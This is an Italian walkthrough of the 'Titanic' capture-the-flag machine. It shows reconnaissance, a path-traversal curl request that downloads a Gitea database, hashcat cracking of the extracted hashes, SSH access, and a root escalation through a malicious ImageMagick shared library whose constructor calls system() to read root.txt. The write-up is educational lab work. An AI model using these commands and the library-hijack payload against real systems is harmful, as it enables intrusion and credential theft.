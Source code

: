 # 🛳️Titanic CTF -  Walkthrough

## 🕵️‍♂️ Primo Step: Ricognizione

La prima cosa che ho fatto è stata una scansione della rete con **nmap** per individuare porte aperte e servizi attivi.

```bash
nmap -sC -sV -A 10.10.11.55
```

L'output non ha rivelato nulla di particolarmente interessante, quindi ho deciso di analizzare il sito web principale. Dopo un'ispezione manuale senza successo, ho eseguito una scansione con **Gobuster** per cercare sottodomini.

```bash
gobuster dns -d titanic.htb -w common.txt
```

Grazie a questa scansione, ho trovato un sottodominio chiamato `dev`.

Visitando `dev.<target>`, ho scoperto che si trattava di un'istanza di **Gitea**, una piattaforma simile a GitHub per il versionamento del codice. Esplorando il repository pubblico, ho individuato un utente chiamato `developer`, che potrebbe essere interessante.

Scorrendo tra i file caricati, ho trovato dei file di configurazione, uno relativo a **Gitea** e un altro a **MySQL**.

## 📂 Accesso al Database

Ho tentato di connettermi direttamente a MySQL, ma la porta non era aperta. Tuttavia, consultando la documentazione di Gitea, ho scoperto che il database `gitea.db` si trova nel percorso `data/gitea`. Ho provato a scaricarlo con **curl**:

```bash
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Aprendo il database con **sqlite3**, ho trovato la tabella `user` contenente gli hash delle password.

```bash
sqlite3 gitea.db
sqlite> .tables
sqlite> SELECT name, passwd, salt FROM user;
```

L'hash della password era in un formato specifico di Gitea. Per decodificarlo in un formato leggibile da **hashcat**, ho usato uno script Python trovato su GitHub ([gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)).

Dopo la conversione, ho lanciato **hashcat** per effettuare un attacco brute-force usando la wordlist `rockyou.txt`.

```bash
hashcat -m 10900 hash.txt rockyou.txt
```

Dopo qualche minuto, ho trovato la password: **25282528**.

## 🔑 Accesso SSH e User Flag

Ora che ho una password valida, ho provato ad accedere tramite SSH all'utente `developer`:

```bash
ssh developer@10.10.11.55
```

Una volta dentro, ho esplorato la directory home dell'utente e ho trovato la **user flag**!

```bash
cat user.txt
```

## 🚀 Privilege Escalation

Per ottenere i privilegi di root, ho iniziato controllando i permessi di `sudo`:

```bash
sudo -l
```

Purtroppo, non ho trovato comandi eseguibili senza password. Ho quindi esplorato il sistema in cerca di file o processi interessanti.

Dopo un po' di ricerca, ho trovato un file che utilizza una versione vulnerabile di **ImageMagick**.

## 🎨 Exploit di ImageMagick

Per sfruttare la vulnerabilità di ImageMagick, ho utilizzato un approccio basato su una libreria condivisa malevola. In pratica, ImageMagick carica dinamicamente alcune librerie durante l'elaborazione delle immagini, e possiamo sfruttare questa caratteristica per eseguire codice arbitrario.

### 🛠 Creazione del Payload

Ho creato una libreria condivisa (`libxcb.so.1`) contenente il codice malevolo che copia il file `root.txt` in `/tmp/root.txt`. Ho compilato il file con il seguente comando:

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

### 📌 Esecuzione dell'Exploit

Una volta che ImageMagick ha elaborato questo file malevolo, il codice all'interno del **costruttore** (`__attribute__((constructor))`) è stato eseguito automaticamente. Questo ha permesso di copiare il contenuto di `root.txt` nella directory `/tmp`, rendendolo leggibile.

In alternativa, avrei potuto incorporare un **reverse shell** nello stesso payload per ottenere un accesso interattivo alla macchina come utente root.

## 🎯 Conclusione

Questa macchina ha richiesto un mix di tecniche di **ricognizione**, **exploit di Gitea**, **cracking di hash**, e **privilege escalation tramite ImageMagick**. È stata una sfida interessante che ha messo alla prova diverse competenze. 🚀
